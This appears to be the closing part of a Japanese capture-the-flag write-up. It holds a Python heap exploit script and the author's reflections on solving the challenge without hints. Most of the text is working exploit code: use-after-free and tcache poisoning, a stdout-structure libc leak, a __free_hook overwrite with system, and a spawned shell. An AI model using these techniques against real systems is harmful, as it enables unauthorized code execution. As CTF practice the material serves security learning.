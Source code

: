 ```python

    # tamper large chunk
    create(s)
    create(s)
    prev_size = 0xb1
    payload = p64(prev_size) + p64(0x41)
    create(s, payload)
    create(s)

    uaf(s, 0)
    uaf(s, 1)
    edit(s, 1, b"\x60")
    create(s)
    create(s, p64(0) + p64(0xb1))

    # to unsorted bin
    for _ in range(8):
        delete(s, 0)

    payload = p64(0) + p64(0xb1) + b"\x60\xc7"
    edit(s, 5, payload)
    delete(s, 4)
    delete(s, 4)
    delete(s, 4)
    uaf(s, 1)
    edit(s, 1, b"\x70")

    create(s)
    create(s)
    payload = p64(0xfbad1880) + p64(0) * 3 + b"\x08"
    create(s, payload)

    libc_addr = u64(s.recv(6).ljust(8, b"\x00")) - libc_addrs["leak"]
    print(hex(libc_addr))

    # ready for `valid` tcache
    delete(s, 0)
    delete(s, 1)

    # write to __free_hook
    create(s)
    delete(s, 0)
    delete(s, 0)
    create(s, p64(libc_addr + libc_addrs["free_hook"]))
    create(s)
    create(s, p64(libc_addr + libc_addrs["system"]))

    # cake
    create(s)
    delete(s, 8)

    s.interactive()

```

## 感想

この企画の目標だった問題なので解けて嬉しいです。UAFするのにやたらと複雑な上にポインタも無制限ではないのでなんとかして再利用したり不要なものをdelete(するついでにtcacheのカウントを増やしたり)したりと大変でした。

流石にshowless leakを昨日2回もやったのでその部分はスラスラ出来て、それ以外のところもノーヒントで自力で脆弱性を見つけて利用出来たので良かったです

ちなみにこの企画、明日で記念すべき1ヶ月目だそうです